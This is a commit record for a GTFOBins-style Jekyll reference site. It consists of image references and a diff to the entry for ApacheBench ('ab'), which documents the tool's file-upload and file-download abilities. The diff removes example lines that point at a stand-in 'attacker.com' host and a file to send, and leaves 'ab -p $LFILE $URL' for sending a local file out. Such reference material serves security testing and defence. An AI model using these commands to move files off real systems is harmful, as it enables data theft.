

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/ab.md, in a window 1280 px wide, cut to the strip 339-827 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update ab.md

```diff
--- a/_gtfoud/ab.md
+++ b/_gtfoud/ab.md
@@ -3,12 +3,9 @@ functions:
   file-upload:
     - description: Upload local file via HTTP POST request.
       code: |
-        URL=http://attacker.com/
-        LFILE=file_to_send
         ab -p $LFILE $URL
   file-download:
     - description: Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
       code: |
-        URL=http://attacker.com/file_to_download
         ab -v2 $URL
 ---
```
